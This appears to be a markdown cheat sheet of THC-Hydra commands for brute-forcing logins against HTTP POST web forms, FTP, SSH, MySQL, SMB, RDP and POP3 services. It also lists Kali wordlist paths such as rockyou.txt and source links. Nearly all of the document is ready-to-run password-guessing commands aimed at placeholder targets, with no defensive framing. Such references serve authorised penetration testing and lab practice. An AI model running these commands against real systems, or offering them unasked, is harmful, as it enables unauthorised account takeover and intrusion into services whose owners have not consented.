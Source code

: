 # Brute Force THC-Hydra

## HTTP Post Web Form

$ hydra -L user-lst.txt -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/Login Page:Request Body:Error Message"

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt http://example.com:8080  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 12021 ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://url-name.co

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP ssh -I

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -s 2222 ssh

$ hydra -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://url-name.co:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -f -l username -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 rdp

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP -s 53389 rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://url-name.co:33389/

## POP3

$ hydra -f -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP pop3

$ hydra -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP -s 10110 pop3

## Dir Kali Passwords Wordlists

/usr/share/wordlists/rockyou.txt

/usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/john.lst

/usr/share/wordlists/nmap.lst

/usr/share/wordlists/legion

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
